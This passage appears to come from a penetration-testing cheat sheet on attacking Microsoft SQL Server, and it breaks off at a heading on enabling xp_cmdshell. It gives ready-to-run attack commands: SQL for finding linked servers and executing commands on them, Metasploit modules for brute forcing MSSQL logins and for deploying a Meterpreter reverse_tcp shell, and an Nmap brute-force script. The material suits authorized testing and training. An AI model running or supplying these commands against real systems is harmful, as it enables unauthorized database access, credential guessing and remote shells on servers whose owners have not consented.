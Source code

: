 More commands can be found in the github repo or in the **tool section**.

### Linked Servers

Microsoft SQL Server allows links to be created to external data sources such as other SQL servers, Oracle databases, excel spreadsheets, and so on. Due to common misconfigurations the links, or “Linked Servers”, can often be exploited to traverse database link networks, gain unauthorized access to data, and deploy shells.

Source: [https://blog.netspi.com/how-to-hack-database-links-in-sql-server/](https://blog.netspi.com/how-to-hack-database-links-in-sql-server/)

Find linked servers:

```text
SQL> select srvname from sysservers;
srvname
------------------------------   
COMPATIBILITY\POO_CONFIG
COMPATIBILITY\POO_PUBLIC  
```

Execute commands on the other server:

```text
SQL> EXECUTE ('select @@servername;') at [COMPATIBILITY\POO_CONFIG];
------------------------------   
COMPATIBILITY\POO_CONFIG 
```

## Bruteforce login

### Metasploit

#### Bruteforce MSSQL Login 

`msf > use auxiliary/admin/mssql/mssql_login` 

#### Metasploit MSSQL Shell 

```text
msf > use exploit/windows/mssql/mssql_payload 
msf exploit(mssql_payload) > set PAYLOAD windows/meterpreter/reverse_tcp
```

### Nmap

```text
nmap -p 1433 --script ms-sql-brute --script-args userdb=customuser.txt,passdb=custompass.txt <host>
```

## Enable xp\_cmdshell

### Check if enabled 
